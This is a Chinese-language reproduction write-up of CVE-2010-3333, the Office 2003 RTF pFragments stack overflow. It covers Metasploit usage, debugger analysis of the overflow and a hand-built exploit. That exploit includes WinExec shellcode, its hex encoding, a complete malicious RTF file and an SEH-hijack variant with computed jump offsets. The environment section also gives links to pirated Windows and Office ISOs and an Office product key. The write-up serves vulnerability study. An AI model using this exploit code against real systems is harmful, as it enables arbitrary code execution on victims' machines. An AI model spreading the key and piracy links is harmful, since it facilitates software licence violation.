


# cve-2010-3333 Office RTF栈溢出漏洞复现

## 测试环境

|            | 推荐环境                | 版本                      |
| ---------- | ----------------------- | ------------------------- |
| 操作系统   | Windows XP Professional | Service Pack 3 (x86)      |
| 漏洞软件   | Office                  | 2003 Service Pack 3 (x86) |
| 虚拟机     | VMware                  | 16.2.3                    |
| 调试器     | OllyDBG                 | 2.0.1-32位                |
| 反汇编工具 | IDA Pro                 | 6.8                       |

影响范围：

Microsoft Office XP SP3, Office 2003 SP3, Office 2007 SP2, Office 2010, Office 2004 and 2008 for Mac, Office for Mac 2011

## 环境搭建

https://msdn.itellyou.cn/

Windows XP Professional with Service Pack 3 (x86)

```
ed2k://|file|zh-hans_windows_xp_professional_with_service_pack_3_x86_cd_x14-80404.iso|630239232|CD0900AFA058ACB6345761969CBCBFF4|/
```

需要先安装office标准版在利用补丁升级到sp3

Office Standard Edition 2003 (Simplified Chinese)

```
ed2k://|file|sc_office_2003_std.iso|429031424|DB59D0F8CC31EF72CC15D675FC9B7C34|/
```

Office 2003 Service Pack 3 (x86)

```
ed2k://|file|zh-Hans_office_2003_service_pack_3_x86.exe|142028200|93157828F4CDA043AD266EC492599111|/
```

**office2003通用密钥序列号**

J2MV9-JYYQ6-JM44K-QMYTH-8RB2W

## 漏洞复现

```shell
Microsoft Office 2003 SP3 English on Windows XP SP3 English
1、
msf > search cve-2010-3333
msf > use 0
msf > info
msf exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > set target 6
msf exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > set FILENAME CVE_2010_3333_crash.rtf
msf exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > exploit
2、
msf > search cve-2010-3333
msf > use 0
msf > info
msf exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > set target 2
msf exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > set FILENAME CVE_2010_3333_calc.rtf
msf exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > set payload windows/exec 
msf exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > set CMD calc.exe
msf exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > exploit
```


## 漏洞分析

### RTF文件格式

RTF(Rich Text Format)是Microsoft公司为进行文本和图像信息格式的交换而指定的一种文件格式，它适用与不同的设备、操作环境和操作系统。大多数文字处理软件都可以读写某些版本的RTF。RTF是Rich TextFormat的缩写，意即多文本格式。这是一种类似DOC格式（Word文档）的文件，有很好的兼容性，使用Windows“附件”中的“写字板”就能打开并进行编辑。

标准RTF文件只能包含7位ASCII字符，但可以通过转义序列对超出ASCII范围的字符进行编码。由控制字(Control Word)、控制符(Control Symbol)和群组(Group)组成。由于RTF由7位ASCII字符组成，所以可以在大多数基于PC的操作系统之间轻松传输。与大多数明文文件不同，RTF文件不必包含任何回车/换行符(CRLFs)，RTF解析软件应忽略CRLF,除非他们可以用作控制字分隔符。当CRLF出现在主要组边界时，RTF文件更具可读性。

也可以理解为RTF(Rich Text Format)文件中的内容可以分为**内容单元**和**控制单元**两个部分，软件读取RTF文件的时候，根据控制单元的内容设置对应内容单元的格式与位置，显示在文档中。

```
{\rtf\ansi\deff0{\fonttbl{\f0\froman Tms Rmn;}{\f1\fdecor Symbol;}{\f2\fswiss Helv;}}
{\colortbl;\red0\green0\blue0;\red0\green0\blue255;\red0\green255\blue255;\red0\green255\blue0;\red255\green0\blue255;\red255\green0\blue0;\red255\green255\blue0;\red255\green255\blue255;}
{\stylesheet{\fs20 \snext0Normal;}}
{\info{\author John Doe}{\creatim\yr1990\mo7\dy30\hr10\min48}{\version1}{\edmins0}{\nofpages1}{\nofwords0}{\nofchars0}{\vern8351}}
\widoctrl\ftnbj \sectd\linex0\endnhere \pard\plain \fs20 This is plain text.\par}
```


#### 控制单元

```
首先是大括号{}，熟悉编程语言的话对这个概念应该很好接受，大括号定义了一个组（group）。
然后是 \green0 这样格式的字符串，这是一个控制字(control word)，由斜杠\开头，后面跟一串小写字母。之后可以接：
	1.数字 或者 -数字，数字是参数，0表示该属性关闭；
	2.一个空格。如果超过一个空格，多余的空格会当作内容显示在文档中；
	3.其他非字母字符。这个非字母的字符标志着控制字结束了，但是字符本身会作为内容显示在文档中。
最后一种在上面的示例中没有，是控制符号(control symbol)，格式类似\*，是一个斜杠\加上一个非字母的字符。大概可以理解的控制符号类似于C语言中格式化字符串使用的\t，表示一些特殊字符。
```

#### 整体结构

RTF文件由 头部(header) 和 文档(document) 两个部分组成`<File> '{' <header> <document>'}'`：

```
<header>
\rtf <charset> \deff? <fonttbl> <filetbl>? <colortbl>? <stylesheet>? <listtables>? <revtbl>?
 
<document>
<info>? <docfmt>* <section>+
```

根据前人的经验，这次分析的漏洞产生的原因是 **Open XML文件格式转换器在处理RTF中的"`pFragments`"属性值时，没有正确计算属性值占用的空间大小。**


将这里面的每2位数字看作一个字节


RTF文件中可以插入图形，图形在RTF文件中的格式如下：

```
{ \shp   ........  { \*\shpinst  { \sp  { \sn .......... }  { \sv .............. }  }  }
            { \shprslt   ............... }   }
```

其中{ \sp { \sn .......... } { \sp .............. } }是这个图形的属性组，sp是shape properties的缩写，sn表示属性名称，sv表示属性值。

而pFragments就是其中的一个属性名称，它是一个数组结构，表示图形的可选附加部分，列出了图形的所有碎片。

下面对poc进行分析


发现程序中断在这，能看到这行指令是将esi地址中的数据写到edi地址中的数据中


但是这里块地址只有读的权限，程序却在往里写数据

再看esp时发现栈下面的数据被覆盖了，包括旧的ebp和返回的地址（旧的eip）都被覆盖了


我们在 rep movs dword ptr es:[edi],dword ptr [esi] 这条指令之前断点 查看情况


此时栈中数据并没有被覆盖，同时ecx和esi相等，为0xC8AC，但是这条指令将esi归零 


我们发现指令现在将eax+0x10地址处的数据给了esi，同时发现esi地址所指的数据和我们文件开头的数据相同


之后将存在ecx的值赋予eax，ecx自己循环向右移 这里相当于除于2 存储着后面赋值的次数 

这个赋值长度也是我们控制的


由于edi地址为0x123DC0 随着数据的覆盖 最终覆盖到了0x130000不可写的地址，同时ebp的地址为0x123DD0，在拷贝数据的过程中 也会覆盖掉ebp和eip。

现在我们利用ida去看看包含 rep movs dword ptr es:[edi],dword ptr [esi] 这条指令地址的函数




该漏洞是没有检测复制的数据长度导致的栈溢出

## 漏洞利用

可以将Shellcode直接布置在栈上，首先需要填充pFragments缓冲区起始地址到保存返回地址的栈地址之前的栈内存，是0x14字节，然后用jmp esp指令的地址覆盖返回地址，将Shellcode放置在返回地址的后面，就可以劫持程序执行流，执行任意代码。也可以通过覆盖返回地址之后的SEH异常处理函数的地址，劫持异常处理，获得程序的执行流。

但是发现该函数没有漏洞函数本身只是在做一个数据的复制，并没有自己的栈帧，所以上面覆盖的返回地址是上层函数的返回地址。我们通过看



得知上层函数包含的地址30F0B5FB，找到该地址，反编译它。


查看伪代码


查看sub_30F0B7AF函数


发现如果sub_30F0B7AF的a5 也就是 sub_30F0B5C2的a6 被我们溢出覆盖为0的话他会直接返回0


a6=0 导致 result=0 程序会快速返回

### 覆盖返回地址

覆盖数据时 EDI到EBP的距离时10h

```
90909090909090909090909090909090
```


a6是sub_30F0B5C2函数传入的在EBP下的第5个参数 为了让a6 = 0 我们需要将到EBP+4*5后面4个字节覆盖成0


```
90909090909090909090909090909090+EBP+EIP+9090909090909090909090909090909000000000
```

寻找jmp esp

这里利用msvbvm60.dll中的7344745D 


```
90909090909090909090909090909090+EBP+5D744473+9090909090909090909090909090909000000000
```

shellcode：

```c
_declspec(naked) void test02()
{
	__asm{
        //查找kernel32.dll基址
        xor     ecx, ecx
        mov     eax, fs:[ecx + 0x30]        // EAX = PEB
        mov     eax, [eax + 0xc]            // EAX = PEB->Ldr
        mov     esi, [eax + 0x14]           // ESI = PEB->Ldr.InMemOrder
        lodsd                               // EAX = Second module
        xchg    eax, esi                    // EAX = ESI, ESI = EAX
        lodsd                               // EAX = Third(kernel32)
        mov     ebx, [eax + 0x10]           // EBX = Base address
        push    ebx
        
        //找到kernel32.dll的导出表
        mov     edx, [ebx + 0x3c]           // EDX = DOS->e_lfanew
        add     edx, ebx                    // EDX = PE Header
        mov     edx, [edx + 0x78]           // EDX = Offset export table
        add     edx, ebx                    // EDX = Export table
        mov     esi, [edx + 0x20]           // ESI = Offset names table
        add     esi, ebx                    // ESI = Names table
        xor     ecx, ecx                    // EXC = 0

    Get_Function:
        inc     ecx                                 // Increment the ordinal
        lodsd                                       // Get name offset
        add     eax, ebx                            // Get function name
        cmp     dword ptr[eax], 0x50746547          // GetP
        jnz     Get_Function
        cmp     dword ptr[eax + 0x4], 0x41636f72    // rocA
        jnz     Get_Function
        cmp     dword ptr[eax + 0x8], 0x65726464    // ddre
        jnz     Get_Function

        //找到GetProcAddress函数地址
        mov     esi, [edx + 0x24]                   // ESI = Offset ordinals
        add     esi, ebx                            // ESI = Ordinals table
        mov     cx, [esi + ecx * 2]                 // CX = Number of function
        dec     ecx             
        mov     esi, [edx + 0x1c]                   // ESI = Offset address table
        add     esi, ebx                            // ESI = Address table
        mov     edx, [esi + ecx * 4]                // EDX = Pointer(offset)
        add     edx, ebx                            // EDX = GetProcAddress

        //获取WinExec()地址 
        pop     ebx                                 //kernel32.dll
        xor     ecx, ecx                   
        push    ecx
        mov     ecx, 0x61636578                     // xeca
        push    ecx
        sub     dword ptr[esp + 0x3], 0x61          // Remove "a"
        push    0x456e6957                          // WinE
        push    esp                                 //"WinExec"
        push    ebx
        call    edx

        //执行WinExec()
        xor     ecx, ecx
        push    ecx
        push    0x6578652E                          //".exe"
        push    0x636C6163                          //"calc"
        mov     ebx, esp
        push    5
        push    ebx
        call    eax
    };
}
int main(void){
    test02();
    return 0;
}
//33C9648B41308B400C8B7014AD96AD8B5810538B533C03D38B527803D38B722003F333C941AD03C381384765745075F4817804726F634175EB8178086464726575E28B722403F3668B0C4E498B721C03F38B148E03D35B33C951B97865636151836C2403616857696E455453FFD233C951682E6578656863616C638BDC6A0553FFD0
```

函数返回时 将esp+14h shellcode填充时需要注意一下


结合

```
9090909090909090909090909090909090909090 5D744473 90909090909090909090909090909090 00000000 33C9648B41308B400C8B7014AD96AD8B5810538B533C03D38B527803D38B722003F333C941AD03C381384765745075F4817804726F634175EB8178086464726575E28B722403F3668B0C4E498B721C03F38B148E03D35B33C951B97865636151836C2403616857696E455453FFD233C951682E6578656863616C638BDC6A0553FFD0
```

长度


我们用180h **都要小写**

```
{\rtf1{\shp{\sp{\sn pFragments}{\sv 3;1;11111111800190909090909090909090909090909090909090905d744473909090909090909090909090909090900000000033c9648b41308b400c8b7014ad96ad8b5810538b533c03d38b527803d38b722003f333c941ad03c381384765745075f4817804726f634175eb8178086464726575e28b722403f3668b0c4e498b721c03f38b148e03d35b33c951b97865636151836c2403616857696e455453ffd233c951682e6578656863616c638bdc6a0553ffd0}}}}
```


### 劫持SEH异常处理

本程序产生的异常属于用户态的异常。

处理过程

```
1、如果发生异常的程序正在被调试，那么将异常信息发送给正在调试它的用户态调试器，给调试器第1次处理机会；如果没有被调试，跳过本步。
2、如果不存在用户态调试器或调试器未处理该异常，那么在栈上放置EXCEPTION_RECORD和CONTEXT两个结构以及记录这两个结构位置的EXCEPTION_POINTERS结构，并将控制权返回给用户态ntdll.dll中的KiUserExceptionDispatcher函数，由它调用ntdll!RtlDispatchException函数进行用户态的异常处理。
3、如果ntdll!RtlDispatchException函数在调用用户态的异常处理过程中未能处理该异常，那么异常处理过程会再次返回nt!KiDispatchException，它将再次把异常信息发送给用户态的调试器，给调试器第2次处理机会。如果没有调试器存在，则不会进行第2次分发，而是直接结束进程。
4、如果第2次机会调试器仍不处理，nt!KiDispatchException会再次尝试把异常分发给进程的异常端口进行处理。该端口通常由子系统进程csrss.exe进行监听。子系统监听到该错误后，通常会显示一个“应用程序错误”对话框，用户可以单击“确定”按钮或者最后将其附加到调试器上的“取消”按钮。如果没有调试器能附加于其上，或者调试器还是处理不了异常，系统就调用ExitProcess函数来终结程序。
5、在终结程序之前，系统会再次调用发生异常的线程中的所有异常处理过程，这是线程异常处理过程所获得的清理未释放资源的最后机会，此后程序就终结了。
```

我们生成一个劫持seh的样本来研究

```
msf > search cve-2010-3333
msf > use 0
msf > info
msf exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > set target 2
msf exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > set FILENAME CVE_2010_3333_calc.rtf
msf exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > set payload windows/exec 
msf exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > set CMD calc.exe
msf exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > set exitfunc seh
msf exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > exploit
```

那我们先找SEH链

在OD数据窗口ctrl+G跟踪dword ptr fs:[0]


或者直接选择


```c
EXCEPTION_DISPOSITION
__cdecl _except_handler(
        struct _EXCEPTION_RECORD *ExceptionRecord, 	//指向包含异常信息的EXCEPTION_RECORD结构
        void * EstablisherFrame, 					//指向该异常相关的EXCEPTION_REGISTRATION结构
        struct _CONTEXT *ContextRecord,				//指向线程环境CONTEXT结构的指针	
        void * DispatcherContext					//该域暂无意义
);
typedef struct _EXCEPTION_REGISTRATION_RECORD {
     struct _EXCEPTION_REGISTRATION_RECORD *Prev; 	//指向前一个EXCEPTION_REGISTRATION的指针
     PEXCEPTION_ROUTINE Handler; 					//当前异常处理回调函数的地址
} EXCEPTION_REGISTRATION_RECORD;

* EstablisherFrame这个存放便是我们S.E.H结构中Next handler的地址。
当程序发生异常，跳转到SE handler指向的地址
EXCEPTION_DISPOSITION结构会入栈，顺序为 DispatcherContext ->ContextRecord -> EstablisherFrame->ExceptionRecord
所以当程序跳转进入S.E.H handler EstablisherFrame位于ESP+8的位置。
程序将这个结构入栈的原因大概是方便在执行完 handler函数之后，如果程序依旧不能解决问题，会进入下一个S.E.H结构，所以会将Next Recrod的地址入栈帧。
一旦进入SE handler，调用POP POP RET，便能让程序跳转到EstablisherFrame指向的内容，也就是同样可控的Next Record地址。
```

在这处理函数的地方下断点我们看看发生异常时，堆栈在调用SEH链的变化


之后利用跳转


跳到了数据覆盖的开头位置


解密shellcode密文


那我们讲shellcode写在edi最开始的地方 0x1237dc


同时需要覆盖SEH链，我们就需要计算SEH链第一个到0x1237dc的距离 0x12ffb0 - 0x1237dc = 0xc7d4

我们需要pop pop ret 指令的地址

在OD中使用crtl+s 可以搜索命令序列，找到需要的指令地址


这里找到了 30ca3814 需要改成小段存储

```
1438ca30
```

接着我们需要jmp short跳到我们真正跳转shellcode的指令地址 中间需要绕过多余的数据6个 


```
eb 06 90 90 + pop pop ret 指令的地址
eb0690901438ca30
```

接着是跳转到真正的shellcode的位置

```
0012ffb8的位置 jmp 0x001237dc
E9的jmp距离计算：距离=目的地址-(当前地址+5)(加5是因为JMP命令共占5个字,实际是目的地址减去JMP命令的指令的长度,即当前地址+5
0x1237dc - (0x12FFb8 + 5)
负数就要算补码
((0x1237dc - 0x12FFb8 -5)-1)^0xffffffff
0xffff381f
e91f38ffff
eb0690901438ca30e91f38ffff
```

0xc7d4


再把shellcode插在开头就行了


